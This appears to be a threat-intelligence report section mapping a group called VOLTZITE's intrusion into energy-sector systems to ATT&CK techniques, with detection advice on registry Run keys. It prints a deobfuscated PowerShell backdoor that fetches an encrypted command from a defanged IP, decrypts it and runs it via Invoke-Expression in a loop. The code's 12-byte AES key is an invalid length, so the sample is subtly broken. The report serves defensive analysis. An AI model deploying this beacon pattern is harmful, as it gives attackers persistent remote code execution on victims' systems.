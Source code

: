 #### Detection

**Registry Modification Monitoring**  
Monitor Windows Registry key modification for unauthorized changes to startup locations, particularly Run keys and Services registry entries.

**Source: ATT&CK data component Windows Registry Key Modification for technique T1547.001**

### 3.3. PowerShell Command and Control Channel

| **Timestamp** | Day 1, 17:12 |
|---|---|
| **Techniques** | T1059.001 PowerShell to achieve TA0002 Execution<br>T1071.001 Web Protocols to achieve TA0011 Command and Control<br>T1573.001 Symmetric Cryptography to achieve TA0011 Command and Control |
| **Target tech** | Windows PowerShell, HTTPS C2 Infrastructure |

VOLTZITE deployed a sophisticated PowerShell-based command and control mechanism providing persistent remote access to compromised energy infrastructure systems. The backdoor utilized legitimate Windows administrative tools and HTTPS communication to evade network-based detection while maintaining reliable command execution capabilities.

Analysis of the PowerShell backdoor reveals advanced obfuscation techniques and encrypted communication protocols designed to blend with normal administrative traffic. The command and control infrastructure utilizes compromised residential routers and legitimate cloud services to obscure attribution and complicate takedown efforts.

**Forensic Evidence - PowerShell Backdoor:**
```powershell
# Deobfuscated VOLTZITE PowerShell backdoor (msupdate.ps1)
function Get-SystemHealth {
    $wc = New-Object System.Net.WebClient
    $wc.Headers.Add("User-Agent", "Microsoft-WinRM/2.0")
    
    try {
        $enc_data = $wc.DownloadString("hxxps://185.220.100.241/api/health/status")
        $key = [System.Text.Encoding]::UTF8.GetBytes("VOLTZ2024KEY")
        $decoded = [System.Convert]::FromBase64String($enc_data)
        
        # AES Decryption Implementation
        $aes = [System.Security.Cryptography.Aes]::Create()
        $aes.Key = $key
        $aes.IV = $decoded[0..15]
        $decryptor = $aes.CreateDecryptor()
        
        $decrypted = $decryptor.TransformFinalBlock($decoded, 16, $decoded.Length - 16)
        $command = [System.Text.Encoding]::UTF8.GetString($decrypted)
        
        Invoke-Expression $command
    } catch {
        Start-Sleep 1800  # Sleep 30 minutes on error
    }
    
    Start-Sleep 3600  # Sleep 1 hour between checks
}

while ($true) { Get-SystemHealth }
```
